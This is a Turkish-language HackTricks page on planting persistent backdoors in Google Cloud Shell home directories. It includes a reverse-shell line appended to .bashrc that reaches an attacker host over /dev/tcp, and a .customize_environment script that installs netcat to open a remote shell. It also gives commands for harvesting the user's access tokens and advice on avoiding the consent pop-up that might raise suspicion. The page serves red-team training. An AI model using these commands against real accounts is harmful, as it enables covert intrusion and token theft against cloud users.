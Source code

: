 # GCP - Cloud Shell Sürekliliği

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Sürekli Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/) tarayıcınızdan bulut kaynaklarınıza komut satırı erişimi sağlar ve bununla ilgili herhangi bir maliyet yoktur.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsolun saldırganlar için bazı ilginç yetenekleri vardır:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tamamen kimlik doğrulamalı bir Cloud Shell örneğine erişim sağlar (Hizmet Hesapları, organizasyonun Sahipleri olsa bile erişebilir).
2. Bu örnek, **hiçbir etkinlik gerçekleşmezse en az 120 gün boyunca** ana dizinini koruyacaktır.
3. Bu örneğin etkinliğini **izleme yeteneği yoktur**.

Bu, temelde bir saldırganın kullanıcının ana dizinine bir arka kapı koyabileceği ve kullanıcı her 120 günde bir GC Shell'e bağlandığı sürece, arka kapının hayatta kalacağı ve saldırganın her çalıştırıldığında bir shell alacağı anlamına gelir, sadece şunu yaparak: 

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde, kullanıcı **cloud shell**'e eriştiğinde **her seferinde** **çalıştırılacak** olan **`.customize_environment`** adında başka bir dosya vardır (önceki teknikte olduğu gibi). Kullanıcı "sık sık" cloud shell'i kullandığı sürece kalıcılığı sağlamak için önceki arka kapıyı veya aşağıdaki gibi birini ekleyin:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Kimlik doğrulama gerektiren bir eylem gerçekleştirildiğinde**, kullanıcının tarayıcısında bir onay penceresi açıldığını belirtmek önemlidir. Bu pencerenin kabul edilmesi, komutun çalışabilmesi için gereklidir. Beklenmedik bir pop-up görünürse, bu şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut shell'den (saldırgan olarak) `gcloud projects list` komutunu çalıştırdığınızda tarayıcıda görünen pop-up'tır:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut shell'i aktif olarak kullandıysa, pop-up görünmeyecek ve **kullanıcının token'larını toplamak için**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temelde, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarınızı eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (google cloud shell'in ip'sini bildirir)

Ancak daha fazla bilgi bulabilirsiniz [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
